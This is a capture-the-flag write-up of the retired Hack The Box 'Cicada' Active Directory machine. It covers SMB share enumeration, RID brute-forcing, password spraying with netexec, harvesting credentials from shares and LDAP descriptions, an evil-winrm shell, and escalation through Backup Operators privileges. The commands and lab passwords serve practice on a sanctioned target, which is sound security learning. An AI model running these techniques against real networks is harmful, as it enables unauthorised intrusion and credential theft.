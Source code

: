 This is a writeup for recently expired Cicada machine in Hackthebox platform.

### Part one: Scanning and Enumeration

Let’s begin with an nmap scan, so that we know which service are running and where to start.

```
nmap -sC -sV 10.10.11.27
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/0.png)

I can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

```
smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/1.png)

let’s check if I can login with guest account or not, and if yes what permission we have using netexec:

```
nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/HTB-S-VI/Cicada/3.png)

![NMAP](/static/writeups/HTB-S-VI/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

```
sudo nxc smb $TAR -u guest -p ‘’ — rid-brute
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/5.png)

I can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.

I am using netexec for this task also.

```
sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/6.png)

I can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

```
nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares
```

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

```
ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/7.png)

I find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission I have on share with this account.

![NMAP](/static/writeups/HTB-S-VI/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

```
smbclient -U david.orelious //$TAR/DEV
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission i have on share using these credentials using NetExec:

```
nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account and pivoting here and there we can see that there is file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where I am able to get user flag.

Using evil-winrm with emily account, I am able to get shell in the machine.

```
sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/11.png)

and using net user emily.oscars, I can see that emily is part of backup_operators group.

lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory.

![NMAP](/static/writeups/HTB-S-VI/Cicada/12.png)

But I cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, I am able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/HTB-S-VI/Cicada/13.png)

I can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above i can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/HTB-S-VI/Cicada/14.png)

and I got root flag like this:

![NMAP](/static/writeups/HTB-S-VI/Cicada/15.png)

cheers!!

![](/static/writeups/HTB-S-VI/Cicada/cicadaa.png)
